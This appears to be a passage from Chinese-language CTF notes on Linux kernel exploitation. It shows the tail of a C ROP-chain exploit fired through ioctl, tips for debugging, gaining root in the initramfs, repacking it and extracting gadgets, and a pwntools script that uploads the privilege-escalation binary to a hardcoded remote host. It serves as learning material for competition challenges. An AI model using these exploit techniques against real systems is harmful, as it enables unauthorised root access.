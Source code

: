```C
	rop[i++] = user_rflags;
	rop[i++] = (unsigned long)(us_stack+6000);
	rop[i++] = user_ss;

    memcpy((unsigned long *)(buf+0x150), rop, sizeof(rop));

    ioctl(fd, KFU, buf);

    return 0;
}
```

### 辅助

#### 调试便利
使用 pwngdb 调试内核性能极差，用原生的 gdb

    add-symbol-file xxx.ko textaddr(/proc/modules 的对应地址)
    set disassembly-flavor intel
    
修改启动文件，可能是`init`，也可能在`etc/`中，可以使启动的进程是`root`权限

    # setsid /bin/cttyhack setuidgid 1000 /bin/sh
    setsid /bin/cttyhack setuidgid 0 /bin/sh

#### cpio文件操作

解压

    mkdir core
    cd core/
    cpio -idm < ../initramfs.cpio

恢复 
```sh
gcc home/pwn/exp.c -o home/pwn/exp -static
find . | cpio -o --format=newc > ../initramfs.cpio
```

#### 获取gadget

    ./extract-vmlinux bzImage > vmlinux
    ROPgadget --binary vmlinux > gadget
    cat gadget
    


#### 上传提权程序的脚本
```py
import os
from pwn import *

HOST = '121.36.215.224'
PORT = 9001

r = remote(HOST , PORT)
#r = ssh(USER, HOST, PORT, PW)

def gen_bin():
    log.info('[+] Compiling')
    os.system('gcc -static -o3 exp.c -o pwn')
    #os.system('zip pwn.zip pwn')

def exec_cmd(cmd):
    r.sendline(cmd)
    r.recvuntil('$ ')
```

  [1]: https://xz.aliyun.com/t/6067
  [2]: http://static.zybuluo.com/leafish/jpp8avpsr27dzae7r1d9x6gz/image_1e693d72u1enl1cneadj3h41tng9.png
  [3]: https://kirin-say.top/2020/03/10/Kernoob-kmalloc-without-SMAP/
  [4]: http://static.zybuluo.com/leafish/evsddfq2iq6gwhck86bsdr0w/image_1e6bda8am1d31h36ubj1ul83079.png
  [5]: http://static.zybuluo.com/leafish/55my5icnzf3lnwnm1bu6zlyb/image_1e6becjm0hvr1bct1odg13ugbv4m.png
  [6]: http://static.zybuluo.com/leafish/413oe16gqt1ggrad5ho0hufa/image_1e6bh0sc91jdg1vir1b0urmt11lu13.png
  [7]: http://static.zybuluo.com/leafish/vyz71tvzk27vi1xlkuhub29q/image_1e6arvrf11sodt53eamhob163vm.png
  [8]: http://static.zybuluo.com/leafish/ull0t1d5zkiolnqkyd6jvrkm/image_1e3cegctudb774e9tl15d1n0q9.png
  [9]: http://static.zybuluo.com/leafish/fiw8hzlguct6w4mk2xzb4jsj/image_1e3ef7h6d10v61al4159f8p46k3m.png
  [10]: http://static.zybuluo.com/leafish/dm87f6we8lbvz08xgsksoubf/image_1e3efov151ckqmngalh1loi19v713.png
  [11]: http://static.zybuluo.com/leafish/a6m91ioa9l9xd0jcuct6cu5h/image_1e3eeat3mq56rv9bqm1udtk599.png
  [12]: http://static.zybuluo.com/leafish/0d4ntjurjrxcbf5mi1okz5te/image_1e3mch0hn1e5o1fqo1g8egom34h9.png
  [13]: http://static.zybuluo.com/leafish/noeaxbpb7ladjp6end8c8d6n/image_1e3p36h6gntr11qi1sfv89qpc09.png
  [14]: http://static.zybuluo.com/leafish/0wh1s7ttqasjk60vvbvdh5ar/image_1e3p39t88h7a1gno1rvi1ggcccpm.png
  [15]: http://static.zybuluo.com/leafish/5u93lj5peuib5v66grw07awr/image_1e3n3ma421g1q1ojd1516ikv1cok9.png
  [16]: http://static.zybuluo.com/leafish/jg93j2ppjpkfqnyutnf5b9to/image_1e3n5fcbj1o5c1omaco918i266km.png
  [17]: http://static.zybuluo.com/leafish/ej95qlwlrxb0h06h8rkycavy/image_1e3n5kj5k4391ulu1v4k12o1hfb13.png
  [18]: http://static.zybuluo.com/leafish/sp7r36az52z5p9andxjf3v5l/image_1e3n6oo8v1us91vcd31n13r31u2j1g.png
  [19]: http://static.zybuluo.com/leafish/vn0zh475yn0thyihbub3v4cm/image_1e3n7co4su6t1j3sb7m1jfl1k0h1t.png
  [20]: http://static.zybuluo.com/leafish/x7jpyo5qpj84b13dbcem1dtd/image_1e3n9dk8m1e5h9fp16edt7l1c042a.png